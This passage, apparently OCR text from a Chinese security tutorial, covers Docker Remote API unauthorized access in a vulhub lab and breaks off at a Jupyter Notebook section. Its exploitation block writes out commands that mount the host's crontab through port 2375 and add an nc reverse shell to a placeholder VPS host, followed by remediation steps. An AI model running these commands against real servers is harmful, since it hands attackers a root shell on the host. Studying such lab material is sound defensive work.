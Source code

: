 1. 配置 VNC 客户端登录口令认证并配置符合密码强度要求的密码。
2. 以最小普通权限身份运行操作系统。

# Docker 未授权访问

  Docker 是一个开源的引擎可以轻松地为任何应用创建一个轻量级的、可移植的、自给自足的容器。开发者在笔记本上编译测试通过的容器可以批量地在生产环境中部署包括 VMs、bare metal、OpenStack 集群和其他的基础应用平台Docker。

  Docker Remote API 是一个取代远程命令行界面（rcli）的REST API。存在问题的版本分别为 1.3 和  1.6因为权限控制等问题导致可以通过 docker client 或者 http 直接请求就可以访问这个 API，通过这个接口，我们可以新建  container，删除已有 container，甚至是获取宿主机的 shell。

## 环境搭建

```bash
root@kali:~/桌面/vulhub-master/docker/unauthorized-rce# chmod 777 docker-entrypoint.sh
root@kali:~/桌面/vulhub-master/docker/unauthorized-rce# docker-compose build && docker-compose up -d 
```


## 漏洞利用

未授权访问，通过crontab反弹宿主机shell

```bash
root@ubuntu:~/Desktop# docker -H tcp://192.168.211.129:2375 version
root@ubuntu:~/Desktop# nv -lvnp 9999
root@ubuntu:~/Desktop# docker -H tcp://192.168.211.129:2375 run -id -v /etc/crontabs:/tmp alpine:latest
root@ubuntu:~/Desktop# docker -H tcp://192.168.211.129:2375 ps
root@ubuntu:~/Desktop# docker -H tcp://192.168.15.5:2375 exec -it a8ff7ed880fb sh
root@ubuntu:~/Desktop# echo '* * * * * /usr/bin/nc {vps_ip} 9999 -e /bin/sh' >> /tmp/root
```

## 漏洞修复

1. 简单粗暴的方法，对2375端口做网络访问控制，如ACL控制，或者访问规则。
2. 修改docker swarm的认证方式，使用TLS认证：Overview Swarm with TLS 和 Configure Docker  Swarm for TLS这两篇文档，说的是配置好TLS后，Docker CLI 在发送命令到docker  daemon之前，会首先发送它的证书，如果证书是由daemon信任的CA所签名的，才可以继续执行。

# Jupyter Notebook 未授权访问

Jupyter Notebook（此前被称为 IPython notebook）是一个交互式笔记本，支持运行 40 多种编程语言。如果管理员未为Jupyter Notebook配置密码，将导致未授权访问漏洞，游客可在其中创建一个console并执行任意Python代码和命令。

## 环境搭建

```bash
root@kali:~/桌面/vulhub-master/jupyter/notebook-rce# service docker restart 
root@kali:~/桌面/vulhub-master/jupyter/notebook-rce# docker-compose up
```

